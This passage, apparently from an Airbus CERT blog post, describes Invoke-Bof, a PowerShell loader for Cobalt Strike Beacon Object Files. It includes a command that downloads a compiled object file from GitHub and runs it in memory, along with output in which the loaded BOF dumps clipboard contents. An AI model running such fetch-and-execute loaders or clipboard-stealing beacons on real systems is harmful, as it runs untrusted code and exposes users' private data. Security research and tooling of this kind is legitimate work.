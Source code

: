 Last, but not least, limitation comes from CLR. The Beacon API uses a lot of varargs functions (the ones that end with `...`), especially BeaconPrintf API. So as CLR can’t handle varargs as C API does, and once we are in the managed world we no longer have access to the original stack, we can only rely on the register parameters. 
In x64 the calling convention uses registers for the fourth first parameter, so as BeaconPrintf uses the first for the logging level, and the second for the string format, we only have two possibles varargs arguments.
Most of the developers only use one or two varargs arguments, so it’s an acceptable limitation.

# Exemple of use case

## Dump clipboard

Now we can launch every beacon available from Github. For example, we can test a beacon that dumps our clipboard:

```
> $BOFBytes = (Invoke-WebRequest -Uri "https://github.com/DallasFR/BOF_dumpclip/raw/main/dump.o").Content
> Invoke-Bof -BOFBytes $BOFBytes -EntryPoint go



██╗███╗   ██╗██╗   ██╗ ██████╗ ██╗  ██╗███████╗    ██████╗  ██████╗ ███████╗
██║████╗  ██║██║   ██║██╔═══██╗██║ ██╔╝██╔════╝    ██╔══██╗██╔═══██╗██╔════╝
██║██╔██╗ ██║██║   ██║██║   ██║█████╔╝ █████╗█████╗██████╔╝██║   ██║█████╗  
██║██║╚██╗██║╚██╗ ██╔╝██║   ██║██╔═██╗ ██╔══╝╚════╝██╔══██╗██║   ██║██╔══╝  
██║██║ ╚████║ ╚████╔╝ ╚██████╔╝██║  ██╗███████╗    ██████╔╝╚██████╔╝██║     
╚═╝╚═╝  ╚═══╝  ╚═══╝   ╚═════╝ ╚═╝  ╚═╝╚══════╝    ╚═════╝  ╚═════╝ ╚═╝     
                                               
  [v0.1 Made with love by Airbus CERT https://github.com/airbus-cert]



[+] Mapping of .text    at  0x133e0c20000
[+] Mapping of .rdata   at  0x133e0c30000
[+] Mapping of .xdata   at  0x133e0c40000
[+] Mapping of .pdata   at  0x133e0c50000
[+] Mapping of /4       at  0x133e0c60000
[+] Jump into beacon at 0x133e0c20000
****************************************************************************
[+] Clipboard updated !
[!]Active Windows : Windows PowerShell ISE
[!] Content : $BOFBytes = (Invoke-WebRequest -Uri "https://github.com/DallasFR/BOF_dumpclip/raw/main/dump.o").Content
Invoke-Bof -BOFBytes $BOFBytes  -EntryPoint go
----------------------------------

****************************************************************************

```

